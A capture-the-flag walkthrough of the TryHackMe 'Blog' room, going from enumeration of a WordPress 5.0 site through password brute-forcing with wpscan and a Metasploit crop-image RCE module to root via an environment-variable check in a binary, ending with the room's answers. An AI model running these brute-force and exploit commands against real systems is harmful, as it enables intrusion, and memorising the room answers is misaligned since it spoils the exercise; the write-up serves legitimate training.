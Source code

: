 # Blog | TryHackMe

## Overview
- **Room:** Blog  
- **Difficulty:** Medium  
- **Tags:** WordPress, Gobuster, Wpscan, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN nmap_blog.txt <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  

---

### Web Enumeration (Port 80)
Visited `http://<IP>/` → WordPress blog.  

Checked `robots.txt` → nothing useful.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Found `/admin`.  

Identified WordPress 5.0 from page source.  

---

### User Enumeration
Checked WordPress API endpoint:  
```http://<IP>/wp-json/wp/v2/users```  
Found users: `kwheel`, `bjoel`  

---

### WPScan
```bash
wpscan --url http://<IP>/ --enumerate u --passwords /usr/share/wordlists/rockyou.txt
```
Credentials found:  
- `kwheel : cutiepie1`  

---

## Exploitation

Logged in as `kwheel`.  

Tried uploading reverse shell → failed.  

Switched to Metasploit:  
```bash
msfconsole
search wordpress 5.0
use exploit/multi/http/wp_crop_rce
set RHOSTS <IP>
set TARGETURI /
set USERNAME kwheel
set PASSWORD cutiepie1
set LHOST <your_IP>
run
```
Got shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh`.  
Discovered password for user `bjoel`.  

Also found suspicious binary `checker`.  
Analyzed with Ghidra → program checks `admin` environment variable.  

```bash
export admin=1
./checker
whoami
root
```

---

## Flags
- **User.txt** → `/media/usb/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What is the WordPress version?** → `5.0`  
2. **Which users were found via API?** → `kwheel`, `bjoel`  
3. **What password was cracked for kwheel?** → `cutiepie1`  
4. **Which binary was exploited for root?** → `checker`  
5. **Where was the user flag located?** → `/media/usb/user.txt`  

---

## Lessons Learned
- WordPress REST API leaks usernames.  
- WPScan automates brute-forcing WordPress users.  
- Analyzing binaries with Ghidra helps discover logic flaws.  
- Environment variable abuse can lead to privilege escalation.  
